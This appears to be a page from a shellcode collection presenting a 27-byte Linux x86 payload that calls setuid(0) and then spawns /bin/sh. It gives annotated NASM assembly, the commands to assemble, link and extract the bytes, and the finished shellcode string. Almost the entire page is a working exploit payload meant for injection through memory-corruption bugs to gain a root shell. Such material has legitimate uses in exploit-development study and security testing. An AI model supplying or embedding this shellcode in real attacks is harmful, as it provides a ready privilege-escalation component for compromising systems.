 ```yaml
---
layout: default
title: setuid(0); execve("/bin/sh", NULL, 0) - Set UID to 0 and spawn shell
permalink: /shellcode/asm-05.html
os: Linux
arch: Intel x86
length: 27
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor ecx, ecx		; null ecx
	xor ebx, ebx		; null ebx
	mul ebx			; eax, ebx, edx = 0

	mov al, 0x17		; move setuid syscall number into al (eax)
	int 0x80		; call setuid

	push eax		; push null terminator
	push 0x68732f2f		; push "//sh"
	push 0x6e69622f		; push "/bin"
	mov ebx, esp		; move pointer to "/bin//sh" into ebx

	mov al, 0xb		; move execve ssycall number into al (eax)
	int 0x80		; call execve
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf -o code.o code.asm

# Link
ld -m elf_i386 -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x31\xc9\x31\xdb\xf7\xe3\xb0\x17\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```